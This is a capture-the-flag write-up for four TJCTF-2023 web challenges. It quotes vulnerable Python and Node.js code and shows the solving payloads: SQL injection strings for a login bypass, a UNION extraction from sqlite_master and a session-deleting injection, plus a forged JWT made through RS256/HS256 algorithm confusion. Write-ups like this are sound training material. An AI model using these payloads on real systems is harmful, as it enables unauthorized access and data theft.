 # **(Write up) WEB Challenge TJCTF-2023**

* ## [web/swill-squill]

Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/swill-squill)

```
def create_db():
    conn = sqlite3.connect(':memory:')
    c = conn.cursor()
    ...
    c.execute(
        'CREATE TABLE notes (description text, owner text)')
    c.execute('INSERT INTO notes VALUES (?, ?)',
              ("Saved this flag for safekeeping: "+flag, 'admin'))
```

The flag is in the note column of the description table with the owner as admin.
```
def post_register():
    name = request.form['name']
    grade = request.form['grade']

    if name == 'admin':
        return make_response(redirect('/'))

    res = make_response(redirect('/api'))
    res.set_cookie("jwt_auth", generate_token(name))

    c = conn.cursor()
    c.execute("SELECT * FROM users WHERE name == '"+name+"';")
```
I just replace the username parameter with payload `admin'--` to bypass `if name == 'admin'` and get `jwt_auth`.
```
name = load_token(request.cookies.get('jwt_auth'))['name']

    c = conn.cursor()

    string = "SELECT description FROM notes WHERE owner == '" + name + "';"
```
Then I send a request to /api and read the flag from admin's note.

* ## [web/ez-sql]

Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/ezsql)
```
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
This challenge has a sql injection vulnerability in the name parameter of API /search.

To bypass `name.length > 6`, I send arrays instead of strings (http://example.com/search?name[0]=aaaaaaa).

And now, name.length=1 (1 element in the array)

<img src= "ezsql/Screenshot 2023-05-27 131537.png">

Check to make sure sql can be injected with simple payload: `name[0]=aaaaaaa%25'--`
<img src= "ezsql/Screenshot 2023-05-27 131800.png">

Extract table name contain flag: name[0]=aaaaaaa%' union select 1, tbl_name FROM sqlite_master--
<img src= "ezsql/Screenshot 2023-05-27 131429.png">

Extract flag:
<img src= "ezsql/Screenshot 2023-05-27 131659.png">

* ## [web/back-to-the-past](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past)
Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past)

Insecure signature authentication.
```
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )
def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```
Public key used to authenticate leaked signature ([public key here](https://github.com/l0gs3c/CTF-writeup/blob/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past/static/public_key.pem)). I can use it to generate fake JWT signature using HS256 algorithm.

Then, I send a request to `/retro` with the fake JWT to get the flag (in the fake JWT payload there is a `year` field less than 1970).
```@app.route("/retro")
@login_required()
def retro(user):
    if int(user["year"]) > 1970:
        return render_template("retro.html", flag="you aren't *retro* enough")
    else:
        return render_template("retro.html", flag=flag)
```

Code written by me in Python to generate and validate JWT: [here](https://github.com/l0gs3c/CTF-writeup/blob/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past/solution.py)

* ## [web/notes](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/notes)
Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/notes)

```
pool.query(`SELECT * FROM notes WHERE user_id = '${req.session.user_id}';`, (err, results) => {
        pool.query(`SELECT * FROM users WHERE id = '${req.session.user_id}';`, (err, users) => {
            res.render('index', { notes: results, user: users[0] || { username: flag } });
        });
    });
```
To get the flag in this challenge, I have to delete the user account row, while that user id still exists in `req.session.userid` variable.

But when the query delete user account is successful or not, `session` is still deleted

My solution to this challenge:

1. Jnject sql into password parameter to /register to create 2 users and create session for user1 on browser A.
```
app.post('/register', (req, res) => {
    if (req.session.user_id)
        return res.redirect('/');

    if (!req.body.username || !req.body.password)
        return res.redirect('/register?e=missing%20fields');

    const id = v4();
    pool.query(`INSERT INTO users (id, username, password) VALUES ('${id}', '${req.body.username}', '${req.body.password}');`, (err, results) => {
        if (err) {
            res.redirect('/register?e=user%20already%20exists');
        } else {
            associateSessionWithUser(id, req.session);
            res.redirect('/');
        }
    });
});
```
Payload:
```
username = user1
password = pass1'), ('idu2', 'user2', 'pass2');-- -
```
2. Login user2 account on browser B.

Now the query will work normally, session for user2 is created

3. In browser A, I send a request to `/user/delete` with `password = incorpass' or username = 'user2'-- -`

```
    const id = req.session.user_id;

    pool.query(`DELETE FROM users WHERE id = '${id}' AND password = '${req.body.password}';`, (err, results) => {

        pool.query(`SELECT * FROM users WHERE id = '${id}' AND password != '${req.body.password}';`, (err, results) => {

            if (err)
                return res.redirect('/?e=an%20error%20occurred');

            if (results.length !== 0)
                return res.redirect('/?e=incorrect%20password');

            sessions[id].forEach(session => {
                session.destroy();
            });
```
`user1` password is wrong, delete query will delete `user2` account, and user1 session.

4. Reload page in browser B

Now the things that still exist include user1 session and user2 account

Reload the page with `user2` session, `username2` will be replaced with `flag`
